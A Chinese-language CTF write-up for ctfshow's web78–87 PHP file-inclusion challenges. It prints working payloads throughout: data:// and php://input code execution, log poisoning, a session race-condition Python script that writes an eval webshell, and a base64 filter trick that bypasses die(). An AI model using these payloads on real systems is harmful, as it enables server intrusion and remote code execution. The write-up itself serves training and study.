---
title: "web入门文件包含篇-ctfshow"
date: 2024-12-03T14:29:06+08:00
summary: "web入门文件包含篇-ctfshow"
url: "/posts/web入门文件包含篇-ctfshow/"
categories:
  - "ctfshow"
tags:
  - "文件包含"
draft: false
---

这篇文章的知识点大部分已经移到另一篇文章了

# 0x02题目

## web78



典型的文件包含**include()函数并不在意被包含的文件是什么类型，只要有php代码，都会被解析出来**。

我们采用伪协议去做

### php伪协议

做法:

做法一:采用data伪协议

```
?file=data://text/plain,<?php system('ls');?>

?file=data://text/plain,<?php system('tac flag.php');?>
```

#### data://伪协议

data:// 是一个流封装器（stream wrapper），它允许你读取或写入数据作为文件流，而不是从实际的磁盘文件中，可以让用户来控制输入流，**当它与include()包含函数结合时，用户输入的data://流会被当作php文件执行**

做法二:采用filiter

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

利用filter协议读文件±，将flag.php通过base64编码后进行输出。这样做的好处就是如果不进行编码，文件包含后就不会有输出结果，而是当做php文件执行了，而通过编码后则可以读取文件源码。

做法三:用input伪协议

```
?file=php://input并提交POST请求包数据:<?php system('ls');?>

?file=php://input并提交POST请求包数据:<?php system('tac flag.php');?>
```

(可以用hackbar提交也可以用burpsuite进行提交)

把传递方式改成POST方式，再添加php代码



### php://input

php://input    是个可以访问请求的原始数据的只读流。可以接收post请求作为输入流的输入，将请求作为PHP代码的输入传递给目标变量，以达到以post 的形式进行输入的目的。

## web79



题目过滤了php，所以我们应该绕过php

做法一:data 通配符绕过

```
?file=data://text/plain,<?=system('ls');?>

?file=data://text/plain,<?=system('tac flag.???');?>
```

注意:如果是用?进行匹配，需要写成flag.???,如果是用*的话只需要fla*就行，因为*是匹配多个字符的，?只能匹配一个字符

### php之\<?= ?>

```
<? ?>`相当于对`<?php ?>`的替换。而`<?= ?>`则是相当于`<?php echo ... ?>
```

### 采用大小写绕过

做法二:**input协议 大小写绕过**

```
?file=PhP://input

<?PhP system('ls');?>

?file=PhP://input

<?PhP system('tac flag*');?>
```

以上两种方法都是可以绕过的，主要是看想用哪个

## web80



这次data和php都被过滤了，由于不确定flag的位置，所以我们用input协议

?file=Php://input上交然后用burpsuite抓包，并用POST提交一个\<?=system('ls');?>



换成tac fl0g.???就可以了，也可以用大小写绕过

还可以用日志文件包含

访问?file=/var/log/nginx/access.log

先添加user-agetn头:

```
<?=eval($_GET[2]);?>
```

执行`?file=/var/log/nginx/access.log&2=system('ls /var/www/html');phpinfo();`

```
?file=/var/log/nginx/access.log&2=system('tac /var/www/html/fl0g.php');phpinfo();
```

寻找PHPinfo信息前面的那一段信息即可找到

**url的请求也会被包含进去，所以在url中的马没法执行**

因为：在get请求的数据会被url编码(`**<?**`)，在进入PHP之前不解码，所以无法当做PHP代码执行

## web81

### #日志文件包含



这次居然连：都过滤了，那就不能用伪协议了，我们试一下日志注入



发送两次得到文件目录



可以看到里面有flag

## web82




这次过滤了.符号，意味着日志注入也不可以了，这次只能包含无后缀的文件了，我们php里面无后缀的文件就是session了

### session文件包含

Session文件包含是一种常见的安全漏洞，它允许攻击者通过包含恶意代码的Session文件来执行代码。这种漏洞的利用通常涉及到对Session的工作原理有深入的理解，以及对PHP配置和服务器环境的熟悉。

#### Session的工作原理

在PHP中，Session是用来保存用户数据的一种方式。当使用***session_start()\***函数初始化Session时，PHP会在服务器上的特定路径下创建一个Session文件。这个路径可以在***php.ini\***文件中通过***session.save_path\***指定。Session文件通常以***sess_\***为前缀，后面跟着一个Session ID。当用户再次访问网站时，服务器会通过这个Session ID来找到对应的Session文件，并加载其中的数据。

#### **利用session.upload_progress进行文件包含**

在php.ini有以下几个默认选项

```plain
1. session.upload_progress.enabled = on
2. session.upload_progress.cleanup = on
3. session.upload_progress.prefix = "upload_progress_"
4. session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"
5. session.upload_progress.freq = "1%"
6. session.upload_progress.min_freq = "1"
```

`enabled=on`表示`upload_progress`功能开始，也意味着当浏览器向服务器上传一个文件时，php将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中 ；

`cleanup=on`表示当文件上传结束后，php将会立即清空对应session文件中的内容，这个选项非常重要；

`name`当它出现在表单中，php将会报告上传进度，**最大的好处是，它的值可控；**

`prefix+name`将表示为session中的键名

另外，再添加个session配置中一个重要选项。

`session.use_strict_mode=off`这个选项默认值为off，表示我们对Cookie中sessionid可控。这一点至关重要，下面会用到。

#### 如何创建session文件呢。

如果`session.auto_start=On` ，则PHP在接收请求的时候会自动初始化Session，不再需要执行session_start()。但默认情况下，这个选项都是关闭的。

但session还有一个默认选项，session.use_strict_mode默认值为0。此时用户是可以自己定义Session ID的。比如，我们**在Cookie里设置PHPSESSID=TGAO，PHP将会在服务器上创建一个文件：/tmp/sess_TGAO**”。即使此时用户没有初始化Session，PHP也会自动初始化Session。 并产生一个键值，这个键值有ini.get("session.upload_progress.prefix")+由我们构造的session.upload_progress.name值组成，最后被写入sess_TGAO里。

#### 默认配置导致文件上传后，session文件内容立即清空，所以我们要想办法把session留在里面，所以就要利用条件竞争，在session文件内容清空前进行文件包含利用。

#### 方法一 | 借助Burp Suite

可以在本地写一个上传页面，然后抓包添加`Cookie: PHPSESSID=AndyNoel`，再用BurpSuite爆破，一边不断发包请求包含恶意的session，一边不断发包以维持恶意session存储。这样就可以利用条件竞争把恶意内容留在session里面了。

### 条件竞争

#### 概念

条件竞争是指一个系统的运行结果依赖于不受控制的事件的先后顺序。当这些不受控制的事件并没有按照开发者想要的方式运行时，就可能会出现`bug`。尤其在当前我们的系统中大量对资源进行共享，如果处理不当的话，就会产生条件竞争漏洞。说的通俗一点，条件竞争涉及到的就是操作系统中所提到的进程或者线程同步的问题，当一个程序的运行的结果依赖于线程的顺序，处理不当就会发生条件竞争。

#### 产生条件



开发人员通过检测文件后缀名，设置白名单黑名单各种方式判断用户上传文件是否为危险文件，一旦发现，就会立马发现。同样的，若是我们在判断和删除事件这一时间差内进行一些操作岂不是也会成功？

### 利用PHP_SESSION_UPLOAD_PROGRESS加条件竞争进行文件包含

1.POST请求上传一个文件并抓包



这里我们添加一个 Cookie :PHPSESSID=flag ，PHP将会在服务器上创建一个文件：/tmp/sess_flag” （这里我们猜测session文件默认存储位置为/tmp），并在PHP_SESSION_UPLOAD_PROGRESS下添加一句话木马，修改如下



因为我们在上面这个页面添加的ID值是flag，所以在题目url中传参?file=/tmp/sess_flag并抓包，修改如下：这个a是随便加的，主要是为了方便爆破



然后将两个数据包都开启爆破，爆破结束后查看长度跟其他差距很大的response包，里面就可以看到回显信息



注意得先进行创建文件的POST包的爆破再进行查看文件的GET包的爆破

后面改一下一句话木马改一下再重复爆破一次就出来flag了

## web83



解析一下

session_destroy(): Trying to destroy uninitialized session in **/var/www/html/index.php** on line **14**

在PHP中，`session_destroy()`函数用于销毁当前会话中的所有数据，并且会话ID也将不再被使用（除非手动重新生成一个新的会话ID）。然而，如果调用`session_destroy()`之前没有通过`session_start()`或其他方式初始化Session，就会出现这个警告。

session_unset()：

释放当前在内存中已经创建的所有$_SESSION变量，但不删除session文件。

session_destroy()：

删除当前用户对应的session文件以及释放sessionid

但我们是自己创建的session，而条件竞争使用的是上传那一瞬间创建的 session，所以不影响。继续上一题的方法，但这里我们要另外讲一个方法

### 用脚本:

```python
import requests
import io
import threading


url='http://e4da427a-35da-400b-9d08-7134bc8bdb21.challenge.ctf.show/'
sessionid='ctfshow'
data={
    "1":"file_put_contents('/var/www/html/muma.php','<?php eval($_POST[a]);?>');"
}  

'''
post 传递内容可在网站目录下写入一句话木马。
根据资料，内容暂存在 /tmp/ 目录下 sess_sessionid 文件。
sessionid 可控，所以这里即 /tmp/sess_ctfshow。
这样一旦访问成功，就说明木马植入了
'''


# /tmp/sess_sessionid 中写入一句话木马。
def write(session):  
    fileBytes = io.BytesIO(b'a'*1024*50)
    while True:
        response=session.post(
            url,
            data={
                'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
            },
            cookies={
                'PHPSESSID':sessionid
            },
            files={
                'file':('ctfshow.jpg',fileBytes)
            }
        )


# 访问 /tmp/sess_sessionid，post 传递信息，保存新木马。
def read(session):
    while True:
        response=session.post(
            url+'?file=/tmp/sess_'+sessionid,
            data=data,
            cookies={
                'PHPSESSID':sessionid
            }
        )
        # 访问木马文件，如果访问到了就代表竞争成功
        resposne2=session.get(url+'muma.php')
        if resposne2.status_code==200:
            print('++++++done++++++')
        else:
            print(resposne2.status_code)

if __name__ == '__main__':

    evnet=threading.Event()
    # 写入和访问分别设置 5 个线程。
    with requests.session() as session:
        for i in range(5):
            threading.Thread(target=write,args=(session,)).start()
        for i in range(5):
            threading.Thread(target=read,args=(session,)).start()

    evnet.set()
```



出现这个之后代表竞争成功了

我们就可以直接访问这个木马然后进行抓包，用POST提交(或者用蚁剑连接更快)



然后再改成cat fl0g.php就能拿到flag了

## web84



**system(rm -rf /tmp/\*); 意思是会删除**该命令会删除（`rm`）`/tmp`目录下的所有文件和文件夹（`*`表示所有内容），并且不会询问确认（`-f`参数表示强制删除），同时递归地删除所有子目录及其内容（`-r`参数表示递归删除）。

但如果我们用脚本去做的话，由于我们爆破的线程开的比较多，在get的请求线程1刚刚删除/tem/*，在上传的线程1中又写了进去了。简单来说就是，刚刚删除完就写进去了。所以我们可以正常用脚本去进行爆破

## web85



先来了解一下file_get_contents函数和**strpos函数**

### file_get_contents()函数

 是 PHP 中的一个非常实用的函数，它用于将整个文件读入一个字符串中。这个函数非常适合于读取小文件或者当你需要将文件内容作为一个字符串来处理时。

用法:
$content = file_get_contents('path/to/your/file.txt');

### **strpos()函数**

`strpos` 函数是 PHP 中用于查找字符串中特定字符或子字符串首次出现位置的内置函数。

用法:

int strpos ( string $haystack , mixed $needle [, int $offset = 0 ] )

- `$haystack`：目标字符串，即要在其中查找的字符串。
- `$needle`：要查找的字符或子字符串。
- `$offset`：可选参数，表示从目标字符串的哪个位置开始查找。默认为 0，即从字符串的开头开始查找。

好像对题目并没有什么影响，那就继续用

## web86

没什么区别，一样可以用脚本去做

## web87



需要用GET传入一个参数file和用POST传入一个参数content，后面是对file参数内容的过滤

file_put_contents(urldecode($file), "\<?php die('大佬别秀了');?>".$content);

- 使用`file_put_contents`函数将字符串写入到由`$file`指定的文件中。在写入之前，`$file`经过了`urldecode`函数处理，这意味着如果文件名是URL编码的，它会被解码。写入的内容首先是`<?php die('大佬别秀了');?>`，这是一个PHP脚本，当文件被作为PHP执行时会立即终止执行并显示消息"大佬别秀了"。然后是变量`$content`的值。

那么 file_put_contents 函数，将会往 $file 里写入 `<?php die('大佬别秀了');?>` 和我们 post 传入的 $content 内容。

这时候我们可以想到file参数被过滤了很多东西，所以我们可以在content参数中传入一句话木马，但由于会同时写入一个die指令，这时候就需要我们去绕过这个死亡函数了

由于这个die()函数的执行没有什么条件，所以还是不太好处理的，于是我就去翻阅了大量wp进行总结

解题方法:

### php://filter 流的 base64-decode 方法

思路:

Base64 编码仅包含 64 个可打印字符，即 A-Z、a-z、0-9、+ 和 /。在 PHP 中，当使用 base64_decode 函数解码一个字符串时，如果字符串中包含不在 Base64 字符集中的字符，这些字符将被跳过，只解码合法的 Base64 字符。

所以当题目中 $content 被加上了 `<?php die('大佬别秀了');?> `，我们可以使用 php://filter/write=convert.base64-decode 先对其进行解码，在解码过程中，字符 <、?、空格、(、'、)、;、>，这些字符不符合 base64 编码的字符范围都将先被移除，最终剩下的用于解码的字符只有 phpdie 和我们 post 传入的内容。由于 Base64 解码是以 4 个字符为一组进行的，这里移除后只剩下 6 个字符，因此我们随便加两个合法字符补全，让其 base64 解码成功，后面再继续传入经过 base64 编码的 payload，也可以被正常解码。

了解完原理就开始做题吧。

由于这里 url 传入的内容本身会进行一次 url 解码，题目中还使用了一个 urldecode 函数，因此 file 传入的内容需要先经过两次 url 编码再传入。

content是写入内容,要进行base64编码 对应上面的伪协议解码,而base解码时,是4个一组,flag.php(要写入的文件),写入的内容中只有phpdie会参与base64解码,因为phpdie只有6个字节,补两个a就是8字节了）（aaPD9waHAgc3lzdGVtKCdscycpOz8+）11是补给前面的 （结果就是phpdie11PD9waHAgQGV2YWwoJF9HRVRbJ2NtZCddKTs/Pg==（四个一组）） }else{     highlight_file(**FILE**); }

file 传入 php://filter/write=convert.base64-decode/resource=shell.php

进行二次编码后得到:

```python
?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%65%25%37%30%25%36%38%25%37%30
```

对 webshell 进行 base64 编码：

webshell：`<?php @eval($_GET['cmd']);?>`

编码后得到:
PD9waHAgQGV2YWwoJF9HRVRbJ2NtZCddKTs/Pg==

注意我们还需要加两个合法字符让前面 base64 解码成功，这里多传入两个1。

post 传入：

```php
content=11PD9waHAgQGV2YWwoJF9HRVRbJ2NtZCddKTs/Pg==
```

用hackbar传参

